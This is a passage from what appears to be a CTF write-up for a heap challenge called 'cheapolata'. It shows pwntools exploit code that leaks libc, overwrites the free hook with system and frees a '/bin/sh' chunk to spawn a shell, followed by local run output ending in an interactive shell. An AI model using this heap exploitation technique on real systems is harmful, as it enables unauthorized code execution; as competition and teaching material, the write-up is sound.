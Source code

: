 ```py
    leak = recv()
    leak += io.recv(timeout=speed)

    leak = b"A" + getb(leak, b"exit\n>>> A", b"\n=====")
    libc.address = (u64(leak) & ~0xfff) - 0x3ec000
    print("libc: %#018x" % libc.address)

    if libc.address == 0x6e65746e6f046000: # quick fix
        raise EOFError()
    if input("good libc?") == "n": # just in case
        raise EOFError()

    sleep(speed) # manual malloc because recv() emptied the buffer so sendlineafter won't work
    sl(b"1")
    sleep(speed)
    sl(str(0x38).encode())
    sleep(speed)
    sl(p64(libc.sym["system"])) # overwrite old_free_hook with system

    alloc(0x18, b"/bin/sh\0")
    free() # call system("/bin/sh")

    io.interactive() # enjoy your shell
    input("end")
    exit()

while True:
    sleep(speed)
    launch()
    try:
        exploit()
    except EOFError:
        print("fail :(")
    io.close()
```

It works locally:
```sh
$ python exploit_bf.py

[...]

[+] Starting local process './cheapolata_patched': pid 33719
guess: 0xe
libc: 0x6e65746e6f046000
fail :(
[*] Stopped process './cheapolata_patched' (pid 33719)

[...]

[+] Starting local process './cheapolata_patched': pid 33721
guess: 0x8
libc: 0x000079a7edc00000
good libc?
[*] Switching to interactive mode
$ $ whoami
meisr
$ $
```
